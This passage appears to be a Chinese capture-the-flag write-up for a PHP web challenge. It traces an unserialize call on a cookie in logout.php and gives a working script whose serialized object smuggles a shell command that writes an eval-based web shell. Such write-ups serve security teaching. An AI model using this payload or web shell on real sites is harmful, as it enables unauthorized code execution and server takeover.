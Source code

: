 审计代码，发现 `logout.php` 可利用：

```php
<?php
session_start();
error_reporting(0);
require 'service/service.php';
unset($_SESSION['login']);
unset($_SESSION['error']);
setcookie('user','',0,'/');
$service = unserialize(base64_decode($_COOKIE['service']));
if($service){
	$service->clearCache();
}
setcookie('PHPSESSID','',0,'/');
setcookie('service','',0,'/');
header("location:../login.php");
?>
```

但是这里没有直接包含`dao.php` ,

我们去看看`service.php` ,发现其包含`dao.php` 的，并且service 类也有调用函数

```php
	public function clearCache(){
		$this->dao->clearCache();
	}
```

所以很明显了，这里利用`logout.php` 进行反序列化任意执行命令的漏洞可以：

* 通过 service.php 调用 dao 类调用其函数
* 直接调用 dao.php 调用其函数

因为这里`$this->config->cache_dir` 还需要用到 `cache.dir` , 他是config.php 中的变量，

```php
<?php

class config{
	public $cache_dir = ';echo "<?php eval(\$_POST[1]);?>" >1.php;';
}

class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}
}

echo base64_encode(serialize(new dao()));

```

## web308
